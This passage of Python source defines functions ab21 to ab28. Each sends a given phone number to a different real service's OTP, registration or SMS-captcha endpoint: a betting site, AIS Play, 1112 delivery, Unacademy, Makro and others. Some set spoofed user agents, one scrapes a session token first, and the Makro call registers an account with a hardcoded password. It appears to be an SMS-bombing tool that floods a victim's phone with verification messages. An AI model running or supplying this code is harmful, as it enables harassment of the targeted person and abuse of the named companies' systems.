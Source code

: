 def ab21(phone):

    post("https://m.lucabet168.com/api/register-otp", headers={"User-Agent": useragent} ,json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})



def ab22(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

    session.post("https://srfng.ais.co.th/api/v2/login/sendOneTimePW", data=f"msisdn={phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})



def ab23(phone):

    post(url="https://www.cpffeedonline.com/Customer/RegisterRequestOTP", data={"mobileNumber":f"{phone}"})



def ab24(phone):

    post(url="https://www.tgfone.com/index.php/signin/otp_chk", data={"mobile":f"{phone}"})



def ab25(phone):

    post("https://api2.1112.com/api/v1/otp/create", json={"phonenumber":f"{phone}","language":"th"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})



def ab26(phone):

    post("https://unacademy.com/api/v3/user/user_check/", json={"phone":f"{phone}","country_code":"TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})



def ab27(phone):

    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile={phone}")



def ab28(phone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register", json={"username": f"{phone}","password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})
